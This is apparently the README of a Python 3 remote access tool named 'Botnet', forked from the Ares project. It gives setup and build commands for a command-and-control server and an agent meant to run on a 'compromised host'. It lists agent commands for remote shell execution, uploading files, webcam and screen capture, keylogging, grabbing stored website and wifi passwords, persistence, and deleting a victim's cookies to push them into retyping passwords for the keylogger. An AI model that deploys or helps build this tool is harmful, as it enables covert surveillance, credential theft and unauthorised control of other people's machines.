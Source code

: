 # Botnet
Botnet is a Python3 Remote Access Tool.

__Warning: Misuse of this software can raise legal and ethical issues which I don't support nor can be held responsible for.__

Botnet is, just like Ares, made of two programs:

- A Command And Control server which is a web interface to administer the agents
- An agent program, which is run on the compromised host, and ensures communication with the C&C

## Based on Github project Ares: https://github.com/sweetsoftware/Ares
Differences?
1. Updated from python 2 -> python 3
2. Extra features like screencaptures, webcam capture, keylogger, password grabber (websites and wifi), ...

## Setup

__Note: I suggest creating a virtual environment__

Install the python requirements: 

```
pip install -r requirements.txt
```

Initialize the database:

```
cd Server
./server initdb
```

## Server
Run the (debug) server:

```
./server.py runserver -h 0.0.0.0 -p 8080 --threaded
```

The server must now be accessible on http://localhost:8080

## Agent
Run the agent (update config.py to suit your needs):

```
cd agent
./agent.py
```

Build an agent to a standalone library and run it:

```
./builder.py -p Linux --server http://localhost:8080 -o agent
./agent
```

To see a list of supported options run

```
./builder.py -h
```

## Commands

```
<any shell command>
Executes the command in a shell and return its output.

upload <local_file>
Uploads <local_file> to server.

download <url> <destination>
Downloads a file through HTTP(S).

zip <archive_name> <folder>
Creates a zip archive of the folder.

python <command|file>
Runs a Python command or local file.

screenshot
Takes a screenshot and uploads the image to server.

camshot
Takes a webcam image and uploads the image to server.

keylogger
Shows all pressed keys since start up.

passwords
Shows all stored passwords on the pc, including websites and wifi.

delete passwords
Deletes all stored cookies from the victims' pc. 
This way you could try to retreive password from keylogs if you cannot get them from the passwords command.

persist
Installs the agent.

clean
Uninstalls the agent.

exit
Kills the agent.
```
